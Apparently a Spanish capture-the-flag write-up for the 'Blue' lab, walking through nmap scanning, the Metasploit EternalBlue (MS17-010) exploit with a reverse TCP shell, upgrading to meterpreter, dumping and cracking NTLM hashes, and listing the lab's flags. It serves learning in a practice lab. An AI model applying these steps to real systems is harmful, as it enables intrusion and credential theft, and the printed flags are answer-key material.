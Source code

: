 # Blue

Esta máquina nos *guía* con las preguntas que nos hacen. Ha sido fácil de completar, quitando algunos errores que tenía la máquina(había que reiniciar y empezar de 0).
Para esta documentación, me voy a limitar a traducir y desarrollar las preguntas que nos hacen con una captura y una oración explicativa.

- Escanea la máquina.
Como no nos especifican que daros quieren que saquemos, haga un escaneo básico de los 1000 puertos más habituales.

![alt text](img/image.png)
> nmap {ip_host}

Este escaneo nos ha dado 4 puertos que podríamos mirar, y el resto con servicios desconocidos.

- ¿Cuántos puertos abiertos hay por debajo del 1000?
Podemos usar el comando anterior, pero para asegurarnos vamos a utilizar un rango de puertos.

![alt text](img/image-1.png)
> nmap -p 1-1000 {ip_host}

Nos aseguramos, y la respuesta es 3.

- ¿A qué es vulnerable esta máquina?
Para ver esto, vamos a utilizar un script de nmap que busca vulnerabilidades en los servicios. Uso el mismo rango de antes porque entiendo que las preguntas están enlazadas.

![alt text](img/image-2.png)
> nmap --script vuln -p 1-1000 {ip_host}

El escaneo nos chiva que existe una vulnerabilidad en el servicio SMBv1 llamada **ms17-010**

- Inicia Metasploit

![alt text](img/image-3.png)
> sudo msfconsole 👍

- Busca la vulnerabilidad. ¿Cuál es la ruta completa del código?
Buscamos la vulnerabilidad anterior en la base de datos de Metasploit

![alt text](img/image-4.png)
> search ms17-010
> exploit/windows/smb/ms17_010_eternalblue

Esto nos dará varias entradas, pero el título de la *Room* nos dice cual es la que nos interesa, en este caso es la primera(la 0 en idioma informático).

- Muestra las opciones y configura la que tiene un valor obligatorio.
Usamos el modulo 0 y mostramos sus opciones, en este caso la única obligatoria es RHOST.

![alt text](img/image-5.png)

Establecemos el valor de RHOST, y cambio el de LHOST, ya que estaba pillando otra IP.

![alt text](img/image-6.png)

Antes de iniciar el exploit, los creadores nos recomiendan establecer el siguiente payload.

![alt text](img/image-7.png)
> set payload windows/x64/shell/reverse_tcp

Lo establecemos e iniciamos el exploit con *run*.

![alt text](img/image-8.png)

Ya estaríamos dentro del sistema de Windows, pero esta terminal no nos gusta, vamos a mejorarala.

![alt text](img/image-9.png)

Paramos la sesión con CTRL + Z.

- Investigue en línea cómo convertir un shell a meterpreter shell en metasploit. ¿Cuál es el nombre del módulo de publicación que usaremos?

Internet = ChatGPT

![alt text](img/image-10.png)

- Selecciona este módulo y muestra las opciones obligatorias de configurar.

![alt text](img/image-11.png)

La única opción obligatoria es *SESSION*, la sesión que paramos antes.

- Establece la opción necesaria, necesitaras listar las sesiones.

![alt text](img/image-12.png)

Listamos las sesiones con sessions -l y, aunque no hace falta, establezco el LHOST por si aca.

- Inicia el exploit.
Lo iniciamos y lo dejamos cargar, se lleva su tiempo, pero si pone session 2 opened, ya puedes darle a *enter*.

![alt text](img/image-13.png)

Yo esperé un rato más, creyendo que iba a parar/pasar algo, pero no, hay que darle al enter.

![alt text](img/image-14.png)

- Una vez que se complete la conversión de la shell, selecciónala y úsala.

    Estás 2 preguntas las uno en la imágen de abajo.

- Lista los procesos usando el comando *ps*.

![alt text](img/image-15.png)

*Ahora se viene una parte que no entendí muy bien*

- Encuentra un proceso al final de la lista que esté siendo ejecutado por NT AUTHORITY\SYSTEM
De toda la lista de antes, elegí uno al azar, no sé si tuve suerte, si todos sirven...

![alt text](img/image-16.png)

Y, usando ese proceso, podemos sacar los hashes de los usuarios de la máquina. ¿Cómo? Si

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::

Le pasamos un john the reaper al hash de Jon y sacamos su contraseña.

![alt text](img/image-17.png)

- Encuentra las flags

Esta parte es muy simple, sobre todo teniendo en cuenta los permisos que tenemos ahora, y las pistas que nos dan.

- Flag1? Esta flag se puede encontrar en la raíz del sistema.

![alt text](img/image-18.png)
> flag{access_the_machine}

- Flag2? Esta flag se encuentra donde Windows guarda las contraseñas de los usuarios.

![alt text](img/image-19.png)
> flag{sam_database_elevated_access}

- Flag3? Esta flag está entre los archivos de Jon.

![alt text](img/image-20.png)
> flag{admin_documents_can_be_valuable}

## USER? No

No sé si al tener root, podemos iniciar sesión con un usuario.

![alt text](img/image-22.png)

## ROOT? Si

![alt text](img/image-21.png)